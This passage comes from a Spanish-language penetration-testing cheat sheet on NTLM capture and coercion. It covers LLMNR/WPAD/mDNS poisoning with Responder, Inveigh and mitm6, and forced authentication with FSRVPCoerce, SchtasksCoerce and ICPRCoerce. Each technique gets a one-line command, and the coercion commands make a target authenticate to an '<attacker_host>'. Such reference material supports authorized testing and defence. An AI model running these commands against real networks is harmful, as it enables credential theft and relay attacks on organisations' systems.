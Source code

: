**Herramientas y comandos:**
- **Linux:**  
  - **Responder:**  
    ```bash
    sudo responder -I <interface>
    ```
- **Windows:**  
  - **Inveigh (PowerShell):**  
    ```powershell
    Invoke-Inveigh
    ```

[Volver al índice](#índice-de-técnicas)

---

## 9. WPAD/LLMNR/mDNS/MITM6
| Aspecto         | Detalle                                                                                          |
|-----------------|-------------------------------------------------------------------------------------------------|
| **Descripción** | Ataca la autoconfiguración de proxy (WPAD) y la resolución de nombres (LLMNR/mDNS), pudiendo capturar autenticaciones NTLM. MITM6 fuerza el uso de IPv6 para ataques similares. |
| **Condiciones** | Red interna sin segmentar, protocolos no filtrados y clientes con IPv6 habilitado (MITM6).       |

**Herramientas y comandos:**
- **Linux:**  
  - **MITM6:**  
    ```bash
    python3 mitm6.py -i <interface>
    ```

[Volver al índice](#índice-de-técnicas)

---

## 10. Otros Coerciones (FSRVPCoerce, SchtasksCoerce, ICPRCoerce)
| Aspecto         | Detalle                                                                                          |
|-----------------|-------------------------------------------------------------------------------------------------|
| **Descripción** | Herramientas para abusar de protocolos adicionales y forzar autenticación NTLM.                 |
| **Condiciones** | Dependen del protocolo: FSRVP (shadow copies), Task Scheduler, ICPR, etc.                        |

**Herramientas y comandos:**
- **Linux:**  
  - **FSRVPCoerce:**  
    ```bash
    python3 fsrvpcoerce.py <TARGET> <attacker_host>
    ```
  - **SchtasksCoerce:**  
    ```bash
    python3 schtaskscoerce.py <TARGET> <attacker_host>
    ```
  - **ICPRCoerce:**  
    ```bash
    python3 icprcoerce.py <TARGET> <attacker_host>
    ```

